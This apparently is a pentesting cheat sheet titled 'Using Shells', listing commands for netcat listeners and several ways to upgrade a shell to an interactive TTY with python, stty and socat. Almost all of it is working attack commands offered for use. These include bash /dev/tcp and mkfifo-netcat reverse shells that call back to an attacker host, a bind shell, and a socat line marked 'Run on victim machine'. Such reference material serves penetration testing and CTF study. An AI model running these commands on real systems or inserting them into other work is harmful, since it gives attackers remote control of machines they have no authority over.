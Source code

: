 
---

## Using Shells

```bash
$ nc -lvnp 1234	                                                                  # Start a nc listener on a local port
$ bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'                             # Send a reverse shell from the remote server
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f  # Another command to send a reverse shell from the remote server
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f	      # Start a bind shell on the remote server
$ nc 10.10.10.1 1234	                                                          # Connect to a bind shell started on the remote server
```


### Upgrade a shell to a fully interactive TTY

> Upgrade shell TTY using python

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'	

```

>Upgrade shell TTY : (Press ctrl+z then type "stty raw -echo" then "fg" then enter twice)

```bash
$ ^Z
$ stty raw -echo
$ fg
[Enter]
[Enter]
$
```

> Upgrade to TTY shell using socat

```bash
$ socat file:`tty`,raw,echo=0 tcp-listen:4444                            # Set listener on client
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  # Run on victim machine

```

> Using stty options

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'   # In reverse shell
Ctrl-Z

```

```bash
$ stty raw -echo       
$ fg

```
